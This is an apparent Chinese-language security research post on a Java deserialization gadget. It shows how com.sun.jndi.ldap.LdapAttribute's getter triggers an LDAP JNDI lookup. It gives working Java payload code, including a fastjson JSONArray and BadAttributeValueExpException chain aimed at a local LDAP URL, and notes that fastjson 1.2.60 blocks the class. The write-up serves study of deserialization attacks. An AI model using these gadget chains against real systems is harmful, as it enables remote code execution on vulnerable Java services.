




# 0x01 Throw A Problem

不论是CB链中`PropertyUtils.getProperty`，还是`FastJson`的`parseObject`

能调用类的getter方法

但若把两个我们熟知的存在恶意getter方法的类都ban了

> TemplatesImpl#getOutputproperties
>
> JdbcRowSetImpl#getDataBaseMetaData

能否找到一个新的存在恶意getter方法的类呢？最好是在Java标准库的类

# 0x02 Newborn Getter RCE

LDAP协议的JNDI注入中，`InitialContext#lookup`的调用栈如下

> javax.naming.InitialContext#lookup(java.lang.String)
>
> -> com.sun.jndi.url.ldap.ldapURLContext#lookup(java.lang.String)
>
> -> com.sun.jndi.toolkit.url.GenericURLContext#lookup(java.lang.String)
>
> -> com.sun.jndi.toolkit.ctx.PartialCompositeContext#lookup(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#p_lookup
>
> -> com.sun.jndi.ldap.LdapCtx#c_lookup

所以要想实现JNDI注入，入口不一定要是`InitialContext#lookup`

只要沿途的参数可控，都可以作为入口

👉[Real Wolrd CTF 3rd Writeup | Old System (qq.com)](https://mp.weixin.qq.com/s/ClASwg6SH0uij_-IX-GahQ)

这篇文章的作者找到了另一条可以通向`com.sun.jndi.ldap.LdapCtx#c_lookup`的链子

文章提到了一个在`jdk1.4`和`jdk1.8`都存在的类

Introducing `com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition`~

> -> com.sun.jndi.ldap.LdapAttribute#getAttributeDefinition
>
> -> javax.naming.directory.InitialDirContext#getSchema(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.PartialCompositeDirContext#getSchema(javax.naming.Name)
>
> -> com.sun.jndi.toolkit.ctx.ComponentDirContext#p_getSchema
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#p_resolveIntermediate
>
> -> com.sun.jndi.toolkit.ctx.AtomicContext#c_resolveIntermediate_nns
>
> -> com.sun.jndi.toolkit.ctx.ComponentContext#c_resolveIntermediate_nns
>
> -> com.sun.jndi.ldap.LdapCtx#c_lookup

```java
Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
    new Class[] {String.class});
ldapAttributeClazzConstructor.setAccessible(true);
Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
    new Object[] {"name"});
setFieldValue(ldapAttribute, "baseCtxURL", "ldap://127.0.0.1:8099/");
setFieldValue(ldapAttribute, "rdn", new CompositeName("a//b"));

Method getAttributeDefinitionMethod = ldapAttributeClazz.getMethod("getAttributeDefinition");
getAttributeDefinitionMethod.setAccessible(true);
getAttributeDefinitionMethod.invoke(ldapAttribute);
```

太牛了orz！！！

文章里面还提到了`PriorityQueue`的替代

> `PriorityQueue`它代表的数据结构是优先级队列。
>
> 所谓的反序列化就是将数据还原成对象，因此如果要得到一个优先级队列的对象，在反序列化过程中势必会进行排序的操作。而排序的过程中，很有可能就会用到 `Comparator` 接口类去对数据结构里的数据进行比较。

`TreeMap`也接受一个 `Comparator` 接口类作为构造函数的参数，在调用 `TreeMap`的get或put方法的时候，就会触发 `Comparator.compare` 方法。

****





`AbstractMap.equals` 方法里有 `Map.get` 方法的调用，两个Map对象判断是否相等，通过遍历一个Map的`entrySet`每个键值对，比较另一个Map对应键下的值（这里就调用了`Map.get(key)`）是否和原Map的相等



接着找哪里调用了`equals`，HashMap的`readObject`就有

------

还以为这条链子很隐蔽呢。。。`fastjson1.2.60`就把它ban了（也可能fastjson宁可错杀一百也不放过一个）

```java
Class ldapAttributeClazz = Class.forName("com.sun.jndi.ldap.LdapAttribute");
Constructor ldapAttributeClazzConstructor = ldapAttributeClazz.getDeclaredConstructor(
    new Class[]{String.class});
ldapAttributeClazzConstructor.setAccessible(true);
Object ldapAttribute = ldapAttributeClazzConstructor.newInstance(
    new Object[]{"name"});
setFieldValue(ldapAttribute, "baseCtxURL", "ldap://127.0.0.1:8099/");
setFieldValue(ldapAttribute, "rdn", new CompositeName("a//b"));

JSONArray jsonArray = new JSONArray();
jsonArray.add(ldapAttribute);

BadAttributeValueExpException val = new BadAttributeValueExpException(null);
setFieldValue(val, "val", jsonArray);

ByteArrayOutputStream barr = new ByteArrayOutputStream();
ObjectOutputStream objectOutputStream = new ObjectOutputStream(barr);
objectOutputStream.writeObject(val);

ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
Object o = (Object) ois.readObject();
```

`autoType is not support. com.sun.jndi.ldap.LdapAttribute`
